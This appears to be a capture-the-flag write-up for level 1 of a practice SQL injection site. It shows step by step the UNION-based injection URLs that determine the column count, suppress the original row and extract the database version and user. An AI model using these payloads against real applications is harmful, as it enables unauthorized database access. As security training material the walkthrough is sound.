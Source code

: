 # Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()**.
- **Have Fun** (:

## [Level 1](https://zixem.altervista.org/SQLi/level1.php?id=1)
  Start: `https://zixem.altervista.org/SQLi/level1.php?id=1`
> - **Item ID:** 1
> - **Price:** 20$

=> I guess the Query can be:
`SELECT * FROM <db> WHERE id=1`
=> We should add `UNION SELECT 1,2;--`
  Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
> - The used SELECT statements have a different number of columns**Item ID:**
> - **Price:** $

=> So it doesn't have 2 columns, let's try again with more to see if the error still exist
  Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 1
> - **Price:** 20$

=> But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.
  Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 2
> - **Price:** 1$

  Ok let's extract *version()* and *user()*:
  Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
> - **Item ID:** zixem@localhost
> - **Price:** 5.6.33-log$

=> Bazinga!
